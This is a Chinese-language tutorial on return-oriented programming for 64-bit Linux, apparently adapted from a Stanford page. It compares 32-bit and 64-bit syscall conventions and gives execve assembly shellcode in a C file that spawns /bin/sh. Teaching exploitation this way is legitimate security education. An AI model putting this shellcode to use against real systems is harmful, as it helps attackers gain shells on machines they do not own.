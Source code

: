 # ROP 

## 64bit linux rop
> https://crypto.stanford.edu/~blynn/asm/rop.html

本文介绍如何绕过64位linux上的执行空间保护（ESP），这里使用了ROP。

### 基本知识

编写汇编代码，通过系统调用执行shell通常是绕过保护的（ROP）的启示步骤。

由于向后兼容性，32位linux system calls 在64位机器上是被支持的，所以我们可以考虑我们能重用面向32位的系统。然而，执行系统调用使用一个以NUL为结尾的内存地址程序名来执行。我们的shellcode 可能被注入到的某个位置，它要求我们引用内存地址大雨32bits，这使我们必须使用64位系统调用。

下面这些可以帮助已经熟悉32位汇编的人了解64位汇报

||32bit syscall|64 bit syscall|
|-|-|-|
|instruction|`int $0x80` | `syscall`|
|syscall number|`EAX, e.g. execve = 0xb`| `RAX, e.g. execve=0x3b`|
|up to 6 inputs | EBX, ECX, EDX, ESI, EDI, EBP| RDI, RSI, RDX, R10, R8, R9|
|over 6 inputs| in RAM; EBX 指向他们|禁止|

32bit 系统调用例子：
```
mov $0xb, %eax
lea string_addr, %ebx
mov $0, %ecx
mov $0, %edx
int $0x80
```

64位系统调用例子：
```
mov $0x3b, %rax
lea string_addr, %rdi
mov $0, %rsi
mov $0, %rdx
syscall
```

我们需要把汇编代码放到一个C文件中，简单命名为 shell.c

```c
int main()
{
    asm("\
    needle0:jmp there\n\
    here:   pop %rdi\n\
            xor %rax,%rax\n\
            movb $0x3b,%al\n\
            xor %rsi, %rsi\n\
            xor %rdx, %rdx\n\
            syscall\n\
    there:   call here\n\
    .string \"/bin/sh\"\n\
    needle1: .octa 0xdeadbeef\n\
    ");

}
```